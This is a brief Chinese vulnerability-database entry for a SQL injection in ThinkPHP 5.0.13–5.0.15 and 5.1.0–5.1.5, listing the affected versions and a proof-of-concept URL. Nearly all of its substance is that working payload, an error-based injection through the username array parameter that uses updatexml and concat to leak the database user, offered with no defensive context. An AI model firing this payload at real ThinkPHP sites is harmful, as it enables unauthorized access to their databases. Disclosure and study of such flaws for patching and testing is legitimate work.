 ```yaml
---
title: 'Thinkphp-5.0.(13-15)&5.1.(0-5)-sql注入漏洞'
date: Sat, 03 Oct 2020 16:23:53 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.0.13<=ThinkPHP<=5.0.15 5.1.0<=ThinkPHP<=5.1.5

### 漏洞POC

没开启debug看不到报错信息```
http://*********/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1 

